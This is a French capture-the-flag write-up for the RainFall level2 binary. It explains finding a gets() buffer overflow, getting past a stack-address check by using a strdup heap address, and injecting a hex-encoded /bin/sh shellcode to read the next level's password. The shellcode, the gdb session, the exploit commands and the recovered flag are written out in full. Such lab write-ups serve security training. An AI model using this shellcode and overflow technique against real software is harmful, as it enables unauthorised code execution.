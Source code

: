 Etape 1 : Un binaire *level2* est présent dans le dossier, par habitude on l'éxécute et celui-ci ouvre une entrée sur la sortie standard. En écrivant n'importe quoi le texte se répète. On peut donc supposer qu'il s'agit d'un programme qui lit sur l'entrée standard et écrit sur la sortie standard.
```bash
level2@RainFall:~$ ./level2
fjsdkfhjkaf
fjsdkfhjkaf
```

Etape 2 : On ouvre le binaire avec *ghidra* pour voir ce qu'il se passe. On peut voir que le programme utilise la fonction *gets* pour lire sur l'entrée standard. Cette fonction est vulnérable à un *buffer overflow*.
voir source.c

Etape 3 : On voit 2 problèmes dans le code. le premier est pas d'appel au /bin/sh et le deuxieme est un if apres le gets qui exit le progamme si l'adresse se trouve sur les adresses 0xb...... (donc sur la stack). On va donc devoir trouver une adresse qui ne se trouve pas sur la stack pour pouvoir executer notre shellcode.

Etape 4 : Pour le /bin/sh on peux contourner le probleme passant par un shellcode : ici nous avons choisi le suivant : "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" qui est un shellcode qui execute /bin/sh.
https://shell-storm.org/shellcode/files/shellcode-575.html

Et pour l'adresse on voit la fonction strdup qui stock la memoire avec malloc dans la heap 
on va utiliser gdb pour trouver une adresse qui ne se trouve pas sur la stack. On va donc lancer le programme et regarder l'adresse de la fonction main. On va ensuite utiliser cette adresse pour executer notre shellcode.

```bash
(gdb) b* 0x0804853d #adress de strdup
Breakpoint 1 at 0x804853d
(gdb) run
Starting program: /home/user/level2/level2
x $eax
x $eax

Breakpoint 1, 0x0804853d in p ()
(gdb) x $eax


0x804a008:    0x65242078
```

Etape 5 : On va donc executer notre shellcode en utilisant l'adresse 0x804a008
pour cela nous allons utiliser le script trouver dans le dossier ressources.

Etape 6: On va donc executer les commandes suivantes pour obtenir le flag
```bash
level2@RainFall:~$ python /tmp/attack.py > /tmp/exploit.txt
level2@RainFall:~$ cat /tmp/exploit.txt - | ./level2
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
